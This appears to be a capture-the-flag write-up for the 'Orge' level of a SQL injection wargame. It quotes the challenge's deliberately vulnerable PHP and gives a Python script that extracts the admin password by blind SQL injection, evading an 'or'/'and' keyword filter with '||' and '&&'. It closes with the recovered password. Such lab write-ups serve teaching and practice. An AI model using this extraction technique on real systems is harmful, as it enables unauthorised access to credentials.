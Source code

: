 # **Orge**

```
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");   
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
     
  $_GET[pw] = addslashes($_GET[pw]);   
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");   
  highlight_file(__FILE__);   
?>
```

It's similar to Level `Orc` but change `or` to `||`, `and` to `&&`. 

```
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""
 
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload="' || id='admin' && mid(pw,"+str(i)+",1)='"+c

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        #print (Payload)
                
        if (b"Hello admin" in HTTP.getresponse().read()):
            Passwd+=c
            print ("[+] Found: %c" % c)

            HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
            if (b"Clear" in HTTP.getresponse().read()):
                print ("[*] Password: %s" % Passwd)
                break

print ("[!] Not Found")
print ("[*] Password: %s~" % Passwd)
```

![](https://i.imgur.com/UnOiqS2.png)

It doesn't exit after first SQL statement return FALSE, so just paste the correct password to make second SQL statement become TRUE then pass it.

Payload is : `?pw=6c864dec`

